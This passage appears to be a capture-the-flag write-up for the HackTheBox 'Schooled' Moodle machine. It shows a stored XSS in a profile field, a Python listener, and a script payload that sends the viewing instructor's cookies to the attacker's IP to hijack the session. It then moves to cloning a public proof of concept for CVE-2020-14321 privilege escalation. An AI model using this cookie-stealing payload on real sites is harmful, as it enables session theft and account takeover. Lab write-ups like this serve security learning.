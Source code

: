 As we continue to look around the site, we are only able to enroll in one class - Mathematics. So we enroll and start looking through the class information and find an interesting comment in the Announcements.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-24.png" >}}

Our instructor will be checking all of our profiles before the class begins. This is a common CTF item, we should look to find some kind of XSS in our profile page, so that when our professor views our page, it will trigger and we can scrape his cookies or some kind of other useful data.

Here's a good XSS Cheat Sheet to help us find one that will work - [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

We'll head back to our profile and try to find a field that we can inject in. Luckily for us, that field is pointed out based on what we've read:

{{< figure src="__GHOST_URL__/content/images/2021/07/image-25.png" >}}

So now I'll use a basic injection to see what might come up - `onerror`.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-26.png" >}}

We'll save it in our `MoodleNet profile` location and see what happens when we save it.

{{< figure src="__GHOST_URL__/content/images/2021/07/schooled_xss_test.gif" >}}

Now that we know the XSS will work, let's modify this exploit a bit. We know we want the cookie data. So let's simply have the injection send that data to a server we are hosting. First we'll start up a listener on our local machine.

Command:
`python -m SimpleHTTPServer 8080`

Next we'll insert our newly crafted XSS:

```javascript
<script>
document.write('<img src="http://10.10.14.70:8080?cookie='+document.cookie+'" />');
</script>
```

Then we wait for our instructor to view our profile. In this machines case it's every two minutes.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-27.png" >}}

Now that we have the session cookies, we can modify our current cookies with these and gain the priviledges of this user! Simply open up the Developer Tools, navigate to Storage and modify the value in the `moodle.schooled.htb` location. Refresh and we should now have Manuel's account!

{{< figure src="__GHOST_URL__/content/images/2021/07/image-28.png" >}}

{{< figure src="__GHOST_URL__/content/images/2021/07/image-29.png" >}}

Now we can start looking around under this account. Nothing too new here. Some googling around turns up [CVE-2020-14321](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-14321). Luckily for us, there's a few [PoC](https://github.com/lanzt/CVE-2020-14321) to go with it! This exploit let's us escalate from a Teacher role to a Manager role.

Let's clone the repo.

Command:
`git clone https://github.com/lanzt/CVE-2020-14321`
